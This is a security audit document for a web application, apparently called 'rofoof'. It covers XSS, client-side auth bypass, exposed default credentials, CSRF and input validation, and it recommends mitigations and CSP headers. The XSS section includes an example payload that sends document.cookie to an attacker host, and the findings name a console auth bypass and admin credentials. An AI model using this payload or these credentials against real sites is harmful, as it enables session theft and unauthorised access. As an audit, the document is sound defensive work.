

# 13. Security Audit & Vulnerability Assessment

This document provides a comprehensive security review of the current application, documenting critical vulnerabilities (XSS, Auth Bypasses, Insecure Storage) and defining enterprise mitigation standards.

---

## 1. Vulnerability Findings & Threat Matrix

| Threat Category | Severity | Vulnerability Description | Mitigation Strategy |
|---|---|---|---|
| **XSS (Cross-Site Scripting)** | 🔴 CRITICAL | Unsanitized DOM string interpolation in `app.js`, `orders.js`, `modals.js` using `.innerHTML = ...`. | Replace raw innerHTML string concatenation with React JSX escaping and `DOMPurify` for rich text. |
| **Auth Bypass** | 🔴 CRITICAL | Static client check `sessionStorage.getItem('rofoof_logged_in') === 'true'` bypassable via browser console. | Implement JWT authorization headers verified by backend middleware on every API call. |
| **Insecure Token Storage** | 🟠 HIGH | Credential placeholders exposed in client JS files (`admin@rofoof.com` / `admin123`). | Store JWT access tokens exclusively in React memory context; refresh tokens in `httpOnly`, `Secure`, `SameSite=Strict` cookies. |
| **CSRF Attacks** | 🟠 HIGH | No Anti-CSRF token verification on POST/PUT requests. | Implement `SameSite=Strict` cookies and `X-XSRF-TOKEN` headers. |
| **Unvalidated Form Inputs** | 🟡 MEDIUM | Form inputs in `modals.js` accept raw unvalidated strings without length or type sanitization. | Implement strict Zod schema validation on form submission before dispatching payload. |

---

## 2. Deep Dive: Cross-Site Scripting (XSS)

### Current Exploitable Pattern:
```javascript
// Found in layout.js, app.js, orders.js
grid.innerHTML = items.map(item => `
  <div class="card-title">${item.name}</div>
`).join('');
```
- **Exploit Vector**: If an attacker submits a product name containing `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`, the inline script executes automatically when rendered in another user's dashboard!

### React JSX Mitigation:
React JSX automatically escapes values embedded in JSX expressions (`{item.name}`), rendering script tags as harmless static strings.

---

## 3. Secure Token Storage Architecture



1. **Access Tokens**: Short-lived (15 minutes). Stored in React state memory via AuthContext. Accessible only within the application runtime.
2. **Refresh Tokens**: Long-lived (7 days). Stored in `httpOnly`, `Secure`, `SameSite=Strict` cookies. Inaccessible to client-side JavaScript (`document.cookie`), completely preventing token theft via XSS!

---

## 4. Content Security Policy (CSP) Headers

Recommended HTTP Response Headers for production server:
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; img-src 'self' data: https:; connect-src 'self' https://api.rofoof.com;
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: geolocation=(), microphone=(), camera=()
```
